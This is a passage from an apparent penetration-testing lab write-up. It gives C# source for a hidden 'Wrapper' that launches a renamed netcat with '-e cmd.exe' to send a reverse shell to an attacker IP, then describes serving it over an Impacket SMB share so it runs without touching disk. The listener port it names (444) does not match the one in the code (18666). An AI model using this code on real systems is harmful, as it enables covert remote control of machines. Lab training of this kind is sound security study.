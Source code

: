 Wrapper.cs:
```cs
using System;
using System.Diagnostics;

namespace Wrapper{
    class Program{
        static void Main(){
            Process proc = new Process();
            ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-shrike.exe", "10.50.102.37 18666 -e cmd.exe");
            procInfo.CreateNoWindow = true; //Prevents a GUI window from being displayed.
            proc.StartInfo = procInfo;
            proc.Start();
        }

    }
}
```

We run `mcs Wrapper.cs` to compile it and then use the Impacket `smbserver.py` to make it available to our target machine using our credentials.

![](images/wreath/impacket.png)

We then run the script directly from the SMB share without touching the filesystem.

![](images/wreath/wrapper.png)

We set up a listener on our attacking machine for the port we specified in the wrapper (in this case, `444`).

![](images/wreath/wrapper_2.png)
